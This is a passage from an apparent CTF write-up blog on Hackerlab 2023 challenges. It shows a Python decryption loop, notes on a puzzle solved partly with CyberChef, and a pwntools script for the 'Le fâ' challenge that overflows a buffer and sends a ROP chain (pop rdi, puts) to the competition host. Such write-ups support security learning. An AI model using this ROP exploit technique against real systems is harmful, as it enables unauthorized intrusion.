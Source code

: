 ```
decrypted_treasure = []
for c in recept:
    rd = random.randint(0, 255)
    b = (int(c) - int(rd)) % 256
    decrypted_treasure.append(b)
print(decrypted_treasure)
original_treasure = bytes(decrypted_treasure).decode()
print(original_treasure)
```

As I did not solve it I will simply provide a [link to my favorite solution](https://raw.githubusercontent.com/parfaittolefo/Hackerlab2023/main/Basic/Challenge%20file/utc_solves.py)


# Le fâ (solved: 100pts)

Pwn challenge I could not pwn [chall](/hackerlab2023/fa/chall)

```
from pwn import *

context.binary = "chall"
s = remote("54.37.70.250", 2002)
s.sendafter(b": ",
  b"a"*0x28 + 
  p64(0x400b03) + # pop rdi
  p64(0x6010c0) + # username
  #p64(0x6010e0) + # password
  p64(0x4006a0)[:-1])  # puts
s.shutdown("send")
print(s.recvall())

```

I won't even try to explain just go [here](https://github.com/parfaittolefo/Hackerlab2023/blob/main/Basic/Hackerlab_2023_qualif-PWN-Le-F%C3%A2.md)

# Puzzle (solved: 120pts)

This one was weird and fun but could not solve it too. Here are the pieces

- [part 1](/hackerlab2023/puzzle/part1.fbx)
- [part 2](/hackerlab2023/puzzle/part2.jpeg)

For part 2 I used cyberchef magic to retrieve this awesome cool photo of king behanzin

{{< image src="/hackerlab2023/puzzle/behanzin.jpeg" alt="Hackerlab" position="left" >}}

Annnd then I got stuck...well I could not find a solution writeup yet so I will update this when available



# Qualification Stages
